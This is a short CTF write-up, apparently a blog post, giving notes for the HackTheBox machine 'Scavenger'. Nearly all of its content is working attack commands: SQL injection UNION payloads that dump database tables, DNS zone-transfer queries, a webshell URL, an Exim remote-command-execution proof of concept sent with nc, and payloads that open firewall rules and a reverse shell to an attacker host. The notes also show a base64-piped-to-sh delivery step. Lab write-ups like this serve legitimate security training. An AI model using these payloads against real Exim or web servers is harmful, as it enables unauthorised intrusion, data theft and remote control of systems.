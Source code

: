 ```yaml
---
categories:
- CTF
image:
  path: https://img.youtube.com/vi/5AQG64lj4mo/0.jpg
layout: post
media_subpath: /assets/posts/2020-02-29-scavenger-hackthebox
tags:
- exim
- hackthebox
- linux
- sql injection
title: Scavenger @ HackTheBox
---
```


Scavenger is a 40 Point machine on hackthebox that involves a lot of enumeration, a SQL injection, and in my video, an unintended root by exploiting exim.

{% youtube 5AQG64lj4mo %}

## Notes

SQL injection:

```
') UNION (SELECT (SELECT GROUP_CONCAT(table_schema, table_name  SEPARATOR " | ") FROM information_schema.tables where table_schema != "information_schema"), 2) #
```

```
') UNION (SELECT (SELECT GROUP_CONCAT(table_schema, table_name, column_name SEPARATOR " | ") FROM  information_schema.columns where table_schema != "information_schema"), 2) #
```

```
') UNION (SELECT (SELECT GROUP_CONCAT(id, domain SEPARATOR " / ") FROM  whois.customers), 2) #
```

Vhosts:

```
supersechosting.htb, justanotherblog.htb, pwnhats.htb, rentahacker.htb
```

Zonetransfer:

```
dig axfr @scavenger.htb supersechosting.htb
dig axfr @scavenger.htb justanotherblog.htb
dig axfr @scavenger.htb pwnhats.htb
dig axfr @scavenger.htb rentahacker.htb
```

Webshell:

```
http://sec03.rentahacker.htb/shell.php?hidden=dpkg+-l+|grep+exim
```

Exim PoC:

```
(sleep 0.1 ; echo HELO foo ; sleep 0.1 ; echo 'MAIL FROM:<>' ; sleep 0.1 ; echo 'RCPT TO:<${run{PAYLOAD}}@localhost>' ; sleep 0.1 ; echo DATA ; sleep 0.1 ; echo "Received: 1" ; echo "Received: 2" ;echo "Received: 3" ;echo "Received: 4" ;echo "Received: 5" ;echo "Received: 6" ;echo "Received: 7" ;echo "Received: 8" ;echo "Received: 9" ;echo "Received: 10" ;echo "Received: 11" ;echo "Received: 12" ;echo "Received: 13" ;echo "Received: 14" ;echo "Received: 15" ;echo "Received: 16" ;echo "Received: 17" ;echo "Received: 18" ;echo "Received: 19" ;echo "Received: 20" ;echo "Received: 21" ;echo "Received: 22" ;echo "Received: 23" ;echo "Received: 24" ;echo "Received: 25" ;echo "Received: 26" ;echo "Received: 27" ;echo "Received: 28" ;echo "Received: 29" ;echo "Received: 30" ;echo "Received: 31" ;echo "" ; echo "." ; echo QUIT) | nc 127.0.0.1 25
```

Exim payloads

```
/bin/sh -c "iptables -I INPUT 1 -j ACCEPT"
/bin/sh -c "iptables -I OUTPUT 1 -j ACCEPT"
/bin/sh -c "nc <lhost> 4141 -e /bin/sh"
```

Send exploit (hex encode payload, paste into PoC, then base64 encode everything and replace "payload" below):

```
echo+<payload>|base64+-d|sh
```